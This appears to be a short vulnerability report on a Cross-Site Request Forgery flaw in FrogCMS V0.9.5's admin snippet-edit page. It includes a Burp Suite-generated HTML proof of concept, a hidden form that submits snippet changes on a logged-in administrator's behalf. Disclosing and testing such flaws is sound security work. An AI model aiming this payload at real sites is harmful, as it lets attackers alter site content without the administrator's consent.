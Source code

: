 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/snippet/edit/3

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/snippet/edit/3" method="POST">
      <input type="hidden" name="/snippet/edit/3" value="" />
<input type="hidden" name="snippet%5Bname%5D" value="cs12" />
<input type="hidden" name="snippet%5Bfilter_id%5D" value="" />
<input type="hidden" name="snippet%5Bcontent%5D" value="" />
<input type="hidden" name="commit" value="Save" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

